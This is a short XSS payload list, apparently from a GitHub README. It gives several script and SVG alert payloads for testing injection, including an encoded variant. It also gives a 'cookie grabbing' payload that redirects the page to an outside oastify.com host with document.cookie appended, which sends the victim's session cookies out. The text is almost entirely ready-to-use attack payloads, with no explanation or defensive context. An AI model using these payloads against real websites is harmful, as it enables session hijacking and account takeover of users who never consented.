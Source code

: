 #### For testing.
```js
<script>alert(1)</script>
<svg/ onload=alert(123)//
<script onclick="alert(1)">
xss&lt;script&gt;alert&#40;1337&#41;&lt;&#47;script&gt;
```
#### For cookie grabbing.
```js
<script>document.location='https://r91uwnam29s3c1jdsyc8t7t34ualyfm4.oastify.com//'+document.cookie</script> 
```
